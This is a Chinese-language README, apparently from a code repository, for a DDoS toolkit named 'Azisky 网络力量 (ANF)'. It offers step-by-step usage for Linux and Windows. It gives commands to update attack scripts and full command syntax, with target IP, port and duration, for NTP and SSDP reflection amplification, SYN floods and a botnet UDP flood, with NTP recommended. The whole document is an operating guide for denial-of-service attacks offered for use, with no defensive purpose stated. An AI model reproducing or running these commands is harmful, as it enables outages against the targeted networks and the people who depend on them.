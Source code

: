 # Azisky 网络力量（ANF）

该脚本运行于 **Linux 系统**。  
`anf/server/` 目录为 **Windows 用户**准备，但运行需要配合一个**网页包发送服务器（Web Package Sender Server）**。

---

## 🐧 Linux 用户操作指南：

1. 将本项目上传至你的系统；
2. 打开终端，运行 `./anf` 启动程序；
3. 按照提示与示例，开始发起攻击！

---

## 🪟 Windows 用户操作指南：

1. 你需要拥有一个**包发送服务器（Package Sender Server）**；
2. 更新攻击脚本的命令如下：

- 更新 NTP 脚本：
  ```
  ./TFDDOS ntp update -1
  ```

- 更新 UDP 脚本：
  ```
  ./TFDDOS udp update -1
  ```

- 更新 SYN 脚本：
  ```
  ./TFDDOS syn update -1
  ```

- 进入攻击模式：
  ```
  sudo -i
  ```

- 自定义伪造攻击（多协议）：
  ```
  ./la us 100 ntp udp ssdp -1
  ```

---

## ☠️ 支持的攻击方式：

- **NTP 反射放大攻击（推荐）**：
  ```
  ./ntp {ip} {端口} ntp.txt 10 -1 {持续时间（秒）}
  ```

- **SSDP 反射攻击**：
  ```
  ./ssdp {ip} {端口} ssdp.txt 10 -1 {持续时间（秒）}
  ```

- **SYN Flood 攻击**：
  ```
  ./syn {ip} {端口} {持续时间（秒）}
  ```

- **UDP 僵尸网络泛洪攻击**（支持 botnet）：
  ```
  ./udp {ip} {端口} 10 888 -1 {持续时间（秒）}
  ```
